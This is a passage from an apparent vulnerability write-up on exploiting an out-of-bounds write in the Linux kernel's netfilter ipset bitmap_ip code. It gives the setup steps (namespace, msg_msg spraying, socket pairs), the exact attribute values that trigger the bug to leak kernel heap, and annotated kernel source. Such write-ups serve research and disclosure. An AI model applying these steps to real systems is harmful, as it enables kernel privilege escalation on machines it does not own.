 ### 4.2. Setup Exploitation Environment

1. **Enter a new namespace**
    - This step is required to trigger the vulnerability.
2. **Allocate `0x4000` msg queues**
    - These are used for msgmsg spraying.
3. **Create `0x100` socket pairs**
    - These socket pairs will be used as part of the exploit setup.

### 4.3. OOB Write To Leak Kheap

1. **Create a ip_set object with comment attribute**
    - With the following attributes:
        - `IPSET_ATTR_IP` = 0xffffffcb (`first_ip`)
        - `IPSET_ATTR_IP_TO` = 0xffffffff (`last_ip`)
    - This ip_set is created with `IPSET_ATTR_CADT_FLAGS` set to 16, matching the `ip_set_extensions[3].flag` value `IPSET_FLAG_WITH_COMMENT`.
    - The creation process follows:
        ``` c
        static int
        bitmap_ip_create(struct net *net, struct ip_set *set, struct nlattr *tb[],
                u32 flags)
        {
            struct bitmap_ip *map;
            // [...]
            set->dsize = ip_set_elem_len(set, tb, 0, 0); // 0x8, comment length
            map = ip_set_alloc(sizeof(*map) + elements * set->dsize); // 0x58 + 0x8 * 53 == 512, kmalloc-cg-512
            // [...]
        }
        static bool
        init_map_ip(struct ip_set *set, struct bitmap_ip *map,
                u32 first_ip, u32 last_ip,
                u32 elements, u32 hosts, u8 netmask)
        {
            map->members = bitmap_zalloc(elements, GFP_KERNEL | __GFP_NOWARN); // 8, kmalloc-8
            // [...]
        }
        ```
2. **Add IP 0xffffffff to the vulnerable ip_set and trigger the vulnerability**
    - Use the following attributes:
        - `IPSET_ATTR_CIDR` = 3, making the `ip` value become 0xe0000000 (smaller than `map->first_ip`).
        - `IPSET_ATTR_COMMENT` with a string of length 0x90.
    - If `ip` value is 0xe0000000, the `ip_to_id()` in `bitmap_ip_uadt()` function will return a ID that is out of range.
        ``` c
        static u32
        ip_to_id(const struct bitmap_ip *m, u32 ip)
        {
            return ((ip /* 0xe0000000 */ & ip_set_hostmask(m->netmask) /* 0xffffffff */) - m->first_ip /* 0xffffffcb */) / m->hosts /* 1 */;
        }
        ```
        - The calculated value 0xe0000035 is then casted to `u16`, ending up with the final value of 0x35.
    - This triggers `bitmap_ip_add()` (also named `mtype_add()`), resulting in abnormal element IDs (from 0x35).
        ``` c
        #define get_ext(set, map, id)    ((map)->extensions + ((set)->dsize * (id)))
        static int
        mtype_add(struct ip_set *set, void *value, const struct ip_set_ext *ext,
            struct ip_set_ext *mext, u32 flags)
        {
            struct mtype *map = set->data;
            const struct mtype_adt_elem *e = value;